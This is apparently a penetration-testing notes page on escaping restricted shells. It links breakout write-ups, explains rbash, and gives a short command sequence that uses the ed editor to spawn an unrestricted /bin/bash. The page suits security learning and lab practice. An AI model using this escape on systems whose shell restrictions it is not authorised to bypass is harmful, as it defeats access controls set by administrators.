 # 👮‍♂️ Restricted Shell Escapes

## S1REN Breakouts

{% embed url="https://sirensecurity.io/blog/break-out-get-that-tty/" %}

## echo breakout

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Rbash

What is rbash?

* rbash is a restricted bash that blocks many commands and special characters
* Designed to make privilege escalation more difficult for an attacker

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

"ed" Editor Escape

<figure><img src="../../.gitbook/assets/image (2) (6) (3).png" alt=""><figcaption></figcaption></figure>

### Example

```
cd /home
echo $SHELL
ed
!'/bin/bash'
pwd
```
